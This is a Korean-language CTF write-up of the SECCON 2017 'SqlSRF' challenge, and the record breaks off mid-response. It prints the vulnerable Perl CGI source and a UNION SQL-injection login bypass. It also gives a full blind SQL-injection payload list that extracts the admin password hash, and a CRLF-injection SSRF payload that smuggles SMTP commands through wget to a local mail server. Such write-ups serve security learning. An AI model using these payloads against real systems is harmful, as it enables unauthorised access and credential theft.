







# SqlSRF

**Description:**
> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.  
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

## Keyword
* SQL Injection
* SSRF
* CR-LF Injection

## Solution
  
문제에 제공된 URL 경로에 접근해보면 디렉터리 인덱싱되어 sqlsrf 디렉터리에 있는 파일 목록을 볼 수 있습니다.  
그리고 `index.cgi` 파일의 백업 파일로 보이는 `index.cgi_backup20171129` 파일도 볼 수 있습니다.

index.cgi_backup20171129:
```cgi
#!/usr/bin/perl

use CGI;
my $q = new CGI;

use CGI::Session;
my $s = CGI::Session->new(undef, $q->cookie('CGISESSID')||undef, {Directory=>'/tmp'});
$s->expire('+1M'); require './.htcrypt.pl';

my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');

my $errmsg = '';
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
}
$user = $q->escapeHTML($user);

print <<"EOM";
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post">$errmsg
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
EOM

1;
```

```cgi
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
```
로그인과 관련된 부분만 보면 사용자가 입력한 Username 값을 users 테이블에서 username을 찾아서 해당하는 password 값을 가져오고 사용자가 입력한 Password 값과 users 테이블에서 username을 조회하여 가져온 password 값이 공백이 아니면서 사용자가 입력한 Password 값을 encrypt()한 값과 users 테이블에서 username을 조회하여 가져온 password 값이 같으면 로그인에 성공하는 것을 알 수 있습니다.

```cgi
($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
```
encrypt() 부분을 직접적으로 볼 수는 없지만 해당 부분을 통해서 간접적으로 결과값을 알 수 있습니다.  
Username 값에 admin을 입력한 다음 `Remember Me`를 선택하고 로그인을 시도하면 Username 값이 encrypt()된 값을 쿠키를 통해서 알 수 있습니다.

Request:  
`POST /sqlsrf/index.cgi? HTTP/1.1`  
`user=admin&pass=&save=1&login=Login`

Response:  
`HTTP/1.1 200 OK`  
`Set-Cookie: remember=58474452dda5c2bdc1f6869ace2ae9e3; path=/; expires=Thu, 11-Jan-2018 19:47:15 GMT`

  
위 정보들을 이용해서 다음과 같이 로그인을 할 수 있습니다.  
`Username : ' union select '58474452dda5c2bdc1f6869ace2ae9e3`  
`Password : admin`  

  
로그인을 해보면 `netstat -tnl` 기능과 `wget --debug -O /dev/stdout 'http://2017.seccon.jp/'` 기능을 볼 수 있고 두번째 기능은 오직 admin만 사용이 가능하다고 되어 있습니다.

  
`netstat -tnl`을 눌러서 사용해보면 위와 같이 결과를 볼 수 있고 SMTP(25) 서비스가 로컬에서 동작하는 것을 볼 수 있습니다.  
```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
```
문제에서 주어진 내용을 보면 "give me flag"라는 제목으로 root에게 메일을 보내면 flag를 받을 수 있다고 되어 있기 때문에 외부에서 접근이 불가능한 로컬 서비스에 외부에서 접근하여 로컬로 메일을 보내면 flag를 얻을 수 있는 형태임을 생각할 수 있습니다.  
(이 부분이 SSRF와 관련되어 문제명이 SQL Injection과 SSRF을 혼합한 SqlSRF임을 추측할 수 있습니다.)


*black hat 2017 - A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! (Orange Tsai)*  
발표자료에 나와있는 CR-LF Injection을 통해 로컬에서만 접근이 가능한 서비스에 wget 명령을 실행할 때 로컬로 접근하여 메일을 보내도록 할 수 있습니다.

따라서 wget 명령을 사용하기 위해서 admin 계정의 패스워드를 알아내야하고 이 부분은 Blind SQL Injection을 통해 알 수 있습니다.  
True:  
`user='UNION/**/SELECT/**/CASE/**/WHEN/**/1/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin&login=Login`  
Login

False:  
`user='UNION/**/SELECT/**/CASE/**/WHEN/**/0/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin&login=Login`  
Login Error!

위와 같은 차이를 이용하여 admin의 패스워드 값을 알아낼 수 있습니다. 
```
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),1,1)='d')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),2,1)='2')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),3,1)='f')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),4,1)='3')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),5,1)='7')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),6,1)='e')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),7,1)='1')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),8,1)='0')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),9,1)='1')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),10,1)='c')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),11,1)='0')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),12,1)='e')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),13,1)='7')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),14,1)='6')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),15,1)='b')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),16,1)='c')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),17,1)='c')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),18,1)='9')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),19,1)='0')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),20,1)='b')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),21,1)='5')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),22,1)='6')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),23,1)='3')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),24,1)='4')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),25,1)='a')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),26,1)='5')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),27,1)='5')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),28,1)='1')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),29,1)='0')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),30,1)='f')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),31,1)='6')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
login=Login&save=1&user='UNION/**/SELECT/**/CASE/**/WHEN/**/(substr((select/**/password/**/from/**/users/**/where/**/username='admin'),32,1)='4')/**/THEN/**/'58474452dda5c2bdc1f6869ace2ae9e3'/**/END/**/--&pass=admin
```

```
Username : admin
Password : d2f37e101c0e76bcc90b5634a5510f64
```

```cgi
$user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');

<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
```
소스 코드를 보면 `Remember Me` 설정 시 Username 값을 유지하기 위해서 cookie('remember')를 decrypt()하여 보여주는 부분을 볼 수 있습니다.

```html
<tr><td>Username:</td><td><input type="text" name="user" value="Yes!Kusomon!!"></td></tr>
```
이 부분을 이용하여 remember 쿠키에 `d2f37e101c0e76bcc90b5634a5510f64`를 입력하고 index.cgi 페이지에 접근 시 위와 같이 복호화된 값을 알 수 있습니다.

  
```
Username : admin
Password : Yes!Kusomon!!
```

  
wget 부분에 CRLF Injection을 이용하여 root@localhost로 give me flag라는 제목으로 메일 전송을 하기 위해 아래와 같이 입력했습니다.  
`127.0.0.1%0D%0AHELO 127.0.0.1%0D%0AMAIL FROM%3A %3Cdo9dark%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0A.%0D%0AQUIT%0D%0A:25`

  
명령을 실행한 결과 정상적으로 메일이 전송된 것을 볼 수 있습니다.
```
Setting --output-document (outputdocument) to /dev/stdout
DEBUG output created by Wget 1.14 on linux-gnu.

URI encoding = 'ANSI_X3.4-1968'
Converted file name 'index.html' (UTF-8) -> 'index.html' (ANSI_X3.4-1968)
--2017-12-12 05:04:35--  http://[127.0.0.1%0D%0Ahelo%20127.0.0.1%0D%0Amail%20from:%20%3Cdo9dark%40gmail.com%3E%0D%0Arcpt%20to:%20%3Croot%40localhost%3E%0D%0Adata%0D%0Asubject:%20give%20me%20flag%0D%0A.%0D%0Aquit%0D%0A]:25/
Resolving 127.0.0.1\r\nhelo 127.0.0.1\r\nmail from: <do9dark@gmail.com>\r\nrcpt to: <root@localhost>\r\ndata\r\nsubject: give me flag\r\n.\r\nquit\r\n (127.0.0.1\r\nhelo 127.0.0.1\r\nmail from: <do9dark@gmail.com>\r\nrcpt to: <root@localhost>\r\ndata\r\nsubject: give me flag\r\n.\r\nquit\r\n)... 127.0.0.1
Caching 127.0.0.1
helo 127.0.0.1
mail from: <do9dark@gmail.com>
rcpt to: <root@localhost>
data
subject: give me flag
.
quit
 => 127.0.0.1
Connecting to 127.0.0.1
helo 127.0.0.1
mail from: <do9dark@gmail.com>
rcpt to: <root@localhost>
data
subject: give me flag
.
quit
 (127.0.0.1
helo 127.0.0.1
mail from: <do9dark@gmail.com>
rcpt to: <root@localhost>
data
subject: give me flag
.
quit
)|127.0.0.1|:25... connected.
Created socket 4.
Releasing 0x0000000001df5f00 (new refcount 1).

---request begin---
GET / HTTP/1.1
User-Agent: Wget/1.14 (linux-gnu)
Accept: */*
Host: [127.0.0.1
helo 127.0.0.1
mail from: <do9dark@gmail.com>
rcpt to: <root@localhost>
data
subject: give me flag
.
quit
]:25
Connection: Keep-Alive

---request end---
HTTP request sent, awaiting response... 
---response begin---
